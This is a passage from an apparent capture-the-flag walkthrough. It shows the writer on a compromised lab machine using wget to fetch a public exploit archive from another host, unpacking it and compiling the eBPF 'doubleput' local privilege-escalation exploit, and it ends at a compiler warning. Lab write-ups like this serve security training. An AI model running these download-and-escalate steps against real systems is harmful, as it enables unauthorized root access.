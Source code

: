 SHayslett
SStroud
Sam
Taylor
elly
jamie
jess
kai
mel
peter
www
zoe
$ cd www
$ ls
$ wget http://10.0.2.5/39772.zip
--2016-09-11 13:26:19--  http://10.0.2.5/39772.zip
Connecting to 10.0.2.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7025 (6.9K) [application/zip]
Saving to: '39772.zip'

     0K ......                                                100%  243M=0s

2016-09-11 13:26:19 (243 MB/s) - '39772.zip' saved [7025/7025]

{% endhighlight %}

<p>I had to move to the folder where I had privilages to write the file. Then we just have to proceed with the instructions of this exploit. </p>

{% highlight bash %}
$ ls
39772.zip
$ unzip 39772.zip
Archive:  39772.zip
   creating: 39772/
  inflating: 39772/.DS_Store         
   creating: __MACOSX/
   creating: __MACOSX/39772/
  inflating: __MACOSX/39772/._.DS_Store  
  inflating: 39772/crasher.tar       
  inflating: __MACOSX/39772/._crasher.tar  
  inflating: 39772/exploit.tar       
  inflating: __MACOSX/39772/._exploit.tar  
$ ls
39772
39772.zip
__MACOSX
$ cd 39772
$ ls                
crasher.tar
exploit.tar
$ tar xf exploit.tar
$ ls
crasher.tar
ebpf_mapfd_doubleput_exploit
exploit.tar
$ cd ebpf_mapfd_doubleput_exploit
$ ls
compile.sh
doubleput.c
hello.c
suidhelper.c
$ ./compile.sh
doubleput.c: In function 'make_setuid':
doubleput.c:91:13: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]